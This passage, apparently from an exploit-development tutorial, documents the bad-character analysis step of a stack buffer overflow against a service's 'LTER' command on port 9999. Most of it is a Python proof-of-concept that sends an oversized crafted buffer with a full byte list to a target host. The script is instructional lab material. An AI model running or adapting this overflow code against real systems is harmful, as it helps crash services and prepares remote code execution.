 ##### In order to analyze it, the bad characters shall be sent after the 4 bytes of C's.

###### PoC code:

```term
import socket, sys, struct

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "LTER /.:/" + "A" * 3515 + "BBBB" + "CCCC" + badchars + "\xff" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Checking the stack, we see an interesting response.

![](/assets/img/LTER/4.png)
